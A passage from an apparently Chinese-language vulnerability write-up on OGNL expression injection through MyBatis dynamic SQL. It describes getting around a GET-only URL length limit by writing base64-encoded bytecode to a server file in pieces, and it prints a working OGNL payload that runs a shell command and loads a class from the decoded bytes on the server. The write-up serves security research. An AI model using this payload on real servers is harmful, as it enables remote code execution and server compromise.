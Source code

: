 但当时面临的实际情况是只支持 GET 请求，因为 URL 是有长度限制的，所以直接使用上面的方法也是不可行的，因为没法分段，只能一次性发送请求。最后的解决方法就是再绕一下，先把字节码的 base64 编码字符串先分段写入服务器文件，然后再去读取从而缩减 payload 的长度。  

```plain
${@org.springframework.cglib.core.ReflectUtils@defineClass('xxxx', @org.springframework.util.Base64Utils@decodeFromString(new String(@org.springframework.util.StreamUtils@copyToByteArray(@java.lang.Runtime@getRuntime().exec("cat /tmp/a").getInputStream())).replace("\n","")), new javax.management.loading.MLet(new java.net.URL[0],@java.lang.Thread@currentThread().getContextClassLoader()))}
```

![图片](assets/1706513706-21c580189ef7f5dd48299603792540a7.png)

  

![图片](assets/1706513706-5978ee2b8d006c656dd91fee433f7fdf.png)

  

漏洞原理

Mybatis3 是支持动态 SQL 的，根据动态 SQL 的描述得知是支持使用 OGNL 表达式的。其中 Mybatis 的 if、choose、when、otherwise、trim、where、set、foreach 等元素都支持动态 SQL。

![图片](assets/1706513706-1dfbaf1e5c4834444474085572069d1e.png)

  
